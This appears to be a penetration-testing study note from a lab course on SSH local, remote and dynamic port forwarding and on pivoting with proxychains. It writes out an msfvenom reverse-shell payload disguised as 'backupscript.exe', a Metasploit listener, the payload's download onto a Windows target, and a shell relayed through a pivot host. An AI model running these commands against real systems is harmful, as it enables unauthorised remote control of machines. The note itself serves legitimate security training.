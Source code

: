```yaml
---
tags:
  - Tunnelling
  - Exploitation
  - SSHTunnelling
---
```

#Tunnelling

Setting up an SSH tunnel allows you to securely access a remote server through an encrypted connection.
SSH tunnelling is commonly used for accessing private networks, bypassing firewalls, and encrypting internet traffic.
Once the tunnel is established, you can access services on the remote server as if they were running locally on your machine.

![[basic-tunnel-1.webp]]

# Guides

[A Visual Guide to SSH Tunnels: Local and Remote Port Forwarding](https://iximiuz.com/en/posts/ssh-tunnels/)

[Can someone explain SSH tunnel in a simple way? - Stack Overflow](https://stackoverflow.com/questions/5280827/can-someone-explain-ssh-tunnel-in-a-simple-way)

[Intro to SSH Tunneling | 0xdf hacks stuff](https://0xdf.gitlab.io/2018/06/10/intro-to-ssh-tunneling.html)

## SSH [[Port Forwarding]]

Local port forwarding, where SSH can listen on our local host and forward a service on the remote host to our port, and dynamic port forwarding, where we can send packets to a remote network via a pivot host

```shell-session
ssh -L 1234:localhost:3306 ubuntu@10.129.202.64
```

The `-L` command tells the SSH client to request the SSH server to forward all the data we send via the port `1234` to `localhost:3306` on the Ubuntu server.

The port forward can be confirmed by running Nmap against the forwarded port:

```shell-session
nmap -v -sV -p1234 localhost
```

Similarly, if we want to forward multiple ports from the Ubuntu server to your localhost, you can do so by including the `local port:server:port` argument to your SSH command. For example, the below command forwards the apache web server's port 80 to your attack host's local port on `8080`.

#### Forwarding Multiple Ports

```shell-session
ssh -L 1234:localhost:3306 -L 8080:localhost:80 ubuntu@10.129.202.64
```

#### Reverse Port Forwarding with SSH


![[33.webp]]

The `outgoing connection` for the Windows host is only limited to the `172.16.5.0/23` network. This is because the Windows host does not have any direct connection with the network the attack host is on. If we start a Metasploit listener on our attack host and try to get a reverse shell, we won't be able to get a direct connection here because the Windows server doesn't know how to route traffic leaving its network (172.16.5.0/23) to reach the 10.129.x.x (the Academy Lab network).

##### Creating a Windows Payload with msfvenom

```shell-session
msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080
```

```shell-session
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 8000
lport => 8000
msf6 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://0.0.0.0:8000
```

##### Transferring Payload to Pivot Host

```shell-session
scp backupscript.exe ubuntu@<ipAddressofTarget>:~/
```

##### Starting Python3 Webserver on Pivot Host

```shell-session
python3 -m http.server 8123
```

##### Downloading Payload on the Windows Target

```powershell-session
Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
```

Once we have our payload downloaded on the Windows host, we will use `SSH remote port forwarding` to forward connections from the Ubuntu server's port 8080 to our msfconsole's listener service on port 8000. We will use `-vN` argument in our SSH command to make it verbose and ask it not to prompt the login shell. The `-R` command asks the Ubuntu server to listen on `<targetIPaddress>:8080` and forward all incoming connections on port `8080` to our msfconsole listener on `0.0.0.0:8000` of our `attack host`.

```shell-session
ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN
```


## SSH Tunnelling

![[22.webp]]

In the above image, the attack host starts the SSH client and requests the SSH server to allow it to send some TCP data over the ssh socket. The SSH server responds with an acknowledgment, and the SSH client then starts listening on `localhost:9050`. Whatever data you send here will be broadcasted to the entire network (172.16.5.0/23) over SSH. We can use the below command to perform this dynamic port forwarding.
#### Enabling Dynamic Port Forwarding with SSH

```shell-session
ssh -D 9050 ubuntu@10.129.202.64
```

The `-D` argument requests the SSH server to enable dynamic port forwarding. Once we have this enabled, we will require a tool that can route any tool's packets over the port `9050`. We can do this using the tool `proxychains`, which is capable of redirecting TCP connections through TOR, SOCKS, and HTTP/HTTPS proxy servers and also allows us to chain multiple proxy servers together. Using Proxychains, we can hide the IP address of the requesting host as well since the receiving host will only see the IP of the pivot host. Proxychains is often used to force an application's `TCP traffic` to go through hosted proxies like `SOCKS4`/`SOCKS5`, `TOR`, or `HTTP`/`HTTPS` proxies.

To inform Proxychains that we must use port 9050, we must modify the Proxychains configuration file located at `/etc/proxychains.conf`. We can add `socks4 127.0.0.1 9050` to the last line if it is not already there.

#### Checking /etc/proxychains.conf

```shell-session
tail -4 /etc/proxychains.conf

# meanwile
# defaults set to "tor"
socks4 	127.0.0.1 9050
```

#### Using Nmap with Proxychains

```shell-session
proxychains nmap -v -sn 172.16.5.1-200
```

One more important note to remember here is that we can only perform a `full TCP connect scan` over proxychains. The reason for this is that proxychains cannot understand partial packets. If you send partial packets like half connect scans, it will return incorrect results. We also need to make sure we are aware of the fact that `host-alive` checks may not work against Windows targets because the Windows Defender firewall blocks ICMP requests (traditional pings) by default.

[A full TCP connect scan](https://nmap.org/book/scan-methods-connect-scan.html) without ping on an entire network range will take a long time. So, for this module, we will primarily focus on scanning individual hosts, or smaller ranges of hosts we know are alive.

Can Proxychains any application which sends packets:

```shell-session
proxychains msfconsole
```


## Example

[HTB: Poison | 0xdf hacks stuff](https://0xdf.gitlab.io/2018/09/08/htb-poison.html)
